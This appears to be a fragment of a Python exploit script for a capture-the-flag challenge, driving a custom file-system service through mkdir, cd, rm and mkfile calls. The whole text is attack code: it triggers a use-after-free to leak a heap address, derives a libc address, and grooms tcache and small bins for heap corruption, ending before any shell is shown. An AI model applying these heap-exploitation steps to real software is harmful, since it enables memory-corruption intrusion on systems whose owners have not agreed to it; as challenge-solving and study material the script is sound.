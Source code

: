 ```python
mkdir('a'*0x38)
cd('../../')
# UAF
rm('a'*0x38)
mkdir('a')
ls('a')
x = r.recvline().split()[2][:-4]
heap = u64(x.ljust(8, '\x00')) - 0x12d40
print 'heap: 0x%x' % heap

# cleanup
mkdir('b'*0x38)
cd('b'*0x38)
mkdir('b'*0x38)
cd('b'*0x38)
mkdir('b'*0x38)
cd('../../')


# exhaust heap & pad
mkdir('tmp')
cd('tmp')
for i in range(370):
    mkfile(str(i), 'a')
cd('..')
#raw_input("@")

libc_addr = heap + 0x20c00
print 'libc addr at: 0x%x' % libc_addr
# fill tache
# create small bin
'''
for i in range(43):
    mkfile(str(i), 'a')
'''
for i in range(43, 50):
    mkfile(str(i), 'a'*0x48)
for i in range(43):
    rm(str(i))
mkdir('DIR')
cd('DIR')
mkdir('DIR')
cd('DIR')
mkfile('1', '1'*0x48)
cd('../..')
for i in range(43, 50):
    rm(str(i))
for i in range(7):
    cmd('ls '.ljust(0x30, 'a'))
rm('DIR')
#for i in range(43, 50):
    #mkfile(str(i), 'a'*0x48)

#r.interactive()

mkdir('DIR')
cd('DIR')
mkdir('DIR2')
cd('..')

for i in range(0xcd):
    ls('flag')
rm('tmp/1')
```